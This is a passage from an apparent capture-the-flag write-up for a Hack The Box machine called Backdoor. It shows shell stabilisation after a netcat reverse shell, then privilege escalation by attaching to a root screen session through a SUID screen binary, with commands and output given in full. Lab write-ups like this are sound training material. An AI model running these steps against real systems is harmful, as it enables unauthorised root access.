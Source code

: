 Let's get a stable shell.

```terminal
script /dev/null -qc /bin/bash
user@Backdoor:/home/user$ export TERM=xterm
export TERM=xterm
user@Backdoor:/home/user$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                              
┌──[10.10.16.18]─[sirius💀parrot]-[~/ctf/htb/backdoor]
└──╼[★]$ stty raw -echo;fg             
[1]  + continued  nc -lvnp 9001

user@Backdoor:/home/user$ 

```

## **Privilege Escalation**

Running linpeas we find an interesting process.

![linpeas](5.png)

The find command checks if the `/var/run/screen/S-root/` is empty, if it is is run `screen -dmS root` which start a screen session with the name of root.

We can see that screen has the suid bit

```bash
-rwsr-xr-x 1 root root 464K Feb 23  2021 /usr/bin/screen 
```

This means we can check the root's session.

```terminal
user@Backdoor:/home/user$ screen -ls root/
There is a suitable screen on:
        1007.root       (12/12/24 17:12:12)     (Multi, detached)
1 Socket in /run/screen/S-root.
```

We found a screen session that belongs to root, I connected to that session using the following command

```bash
screen -x root/
```

```terminal
root@Backdoor:~# id                                                                                                                                                                           
uid=0(root) gid=0(root) groups=0(root)
```

And just like that we got root!

## **References**
